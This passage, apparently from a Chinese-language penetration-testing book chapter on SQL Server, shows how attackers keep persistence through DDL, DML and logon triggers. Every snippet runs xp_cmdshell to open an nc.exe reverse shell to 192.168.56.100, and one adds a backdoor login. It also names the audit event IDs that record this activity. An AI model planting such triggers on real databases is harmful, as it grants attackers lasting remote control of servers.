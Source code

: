 什么是触发器？根据 Microsoft 的定义，“*触发器是一种特殊类型的存储过程，当数据库服务器中发生某个事件时，它会自动运行*”[31]。触发器有三种类型，依据执行条件的不同而有所区别：

+   **数据定义语言**（**DDL**）– `CREATE`、`ALTER` 和 `DROP` 语句

+   **数据操作语言**（**DML**）– `INSERT`、`UPDATE` 和 `DELETE` 语句

+   **登录触发器** – 一个登录事件

DDL 触发器适用于服务器和数据库级别。有很多 DDL 事件和事件组[32]可以用来创建触发器。在繁忙的环境中，有些事件可能每隔几分钟就会发生，因此需要谨慎选择。触发器的创建就像下面的代码一样简单：

```
CREATE TRIGGER [ddl_persist]
ON DATABASE
FOR DROP_TABLE
AS
EXEC master..xp_cmdshell 'C:\Users\Public\nc.exe -e cmd 192.168.56.100 443'
```

DML 触发器仅在数据库级别工作。我们将选择一个语句和表。一个重要的警告是，与目标表一起工作的用户可能没有足够的权限执行诸如运行 `xp_cmdshell` 之类的操作。NetSPI 在其博客[33]中建议，应该为所有用户授予 `sa` 模拟权限，或者使用代理账户执行 `xp_cmdshell`。以下代码将创建一个 DML 触发器：

```
CREATE TRIGGER [dml_persist]
ON new.dbo.player
FOR INSERT, UPDATE, DELETE
AS
EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'C:\Users\Public\nc.exe -e cmd 192.168.56.100 443'
```

登录触发器用于根据特定条件防止用户登录。攻击者可以创建一个低权限的假账户，并在需要保持持久性时使用它，而不是使用真实的用户登录。这样的触发器代码不言自明：

```
CREATE LOGIN [fake] WITH PASSWORD = 'fake123!'
CREATE TRIGGER [logon_persist]
ON ALL SERVER WITH EXECUTE AS 'sa'
FOR LOGON
AS
BEGIN
IF ORIGINAL_LOGIN() = 'fake'
    EXEC master..xp_cmdshell 'C:\Users\Public\nc.exe -e cmd 192.168.56.100 443'
END
```

尝试使用假账户登录会触发连接，但也会在日志中留下一个错误，事件 ID 为`17892`。启用审计功能后，触发器创建代码将在事件 ID `33205` 中完全记录。

# 摘要

总结来说，有很多原因让对手选择 SQL Server 作为一个有价值的目标。我们通过实践演示了如何对数据库服务器进行枚举。我们深入探讨了各种权限提升技巧，不仅仅局限于数据库级别。通过从一个低权限的公共账户逐步迁移到`SYSTEM`，我们涵盖了攻击者的“杀链”。接着，演示了多种操作系统命令执行技巧，以帮助我们理解应用程序与宿主操作系统的集成程度。此外，我们还看到，如果数据库链接配置不当，攻击者可能会利用这些链接进行横向移动。最后，我们讨论了操作系统和数据库层面的持久化技术。对可用数据库功能的深入理解，可能会使一方相对于另一方占据优势。

# 进一步阅读

以下是一些进一步学习的资料，帮助你更深入理解本章中涉及的攻击：
